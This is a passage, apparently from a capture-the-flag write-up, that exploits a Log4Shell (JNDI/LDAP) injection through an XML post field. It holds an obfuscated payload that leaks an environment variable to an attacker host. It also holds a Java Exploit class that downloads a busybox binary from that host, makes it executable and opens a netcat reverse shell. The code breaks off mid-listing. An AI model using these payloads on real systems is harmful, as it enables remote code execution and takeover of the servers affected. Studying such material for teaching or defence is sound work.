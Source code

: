 So let's check the context of the application:

```xml
<?xml version="1.0"?>
<post>${${::-j}ndi:ldap://ATTACKER_IP_ADDRESS:1389/${env:PWD}}</post>
```
We use this payload to leak the PWD environment variable which tells us the current path where the application is being executed.

This return the following in marshalsec:

```bash
Send LDAP reference result for /app redirecting to http://ATTACKER_IP_ADDRESS:8000/Exploit.class
```

This tells us the application is running in `/app` . So we will attempt to upload a binary to `/app/uploads` (or we could use a relative path since we're already in `/app`).

To make thing easier for ourselves, we can now use java to upload a busybox static binary, make it executable and then make use of all the tools included in busybox to exploit the target.

You can obtain busybox binaries from: [https://busybox.net/downloads/binaries/](https://busybox.net/downloads/binaries/)

We'll host it on the same http server as our java exploit.

Then we craft our java exploit to download busybox, change permissions, and execute a command that will give us a shell on port 8080.

```java
import java.io.*;
import java.lang.*;
import java.nio.file.StandardCopyOption;
import java.net.URL;
import java.nio.file.Paths;
import java.nio.file.Files;

public class Exploit {
    static {
        try {

            String ip = "ATTACKER_IP_ADDRESS";

            //Download the file
            String FILE_URL = "http://"+ip+":8000/busybox";
            String FILE_PATH = "/app/uploads/busybox";

            InputStream in = new URL(FILE_URL).openStream();
            Files.copy(in, Paths.get(FILE_PATH), StandardCopyOption.REPLACE_EXISTING);

            File file = new File(FILE_PATH);

            //check if file exists
            if(file.exists()){

                //change file permissions
                file.setExecutable(true);
                file.setReadable(true);
                file.setWritable(false);

            }

            //Execute a command that gives us a reverse shell
            Runtime r = Runtime.getRuntime();
            Process p = r.exec("/app/uploads/busybox nc "+ip+" 8080 -e /app/uploads/busybox sh");
            p.waitFor();


        } catch (Exception e) {
```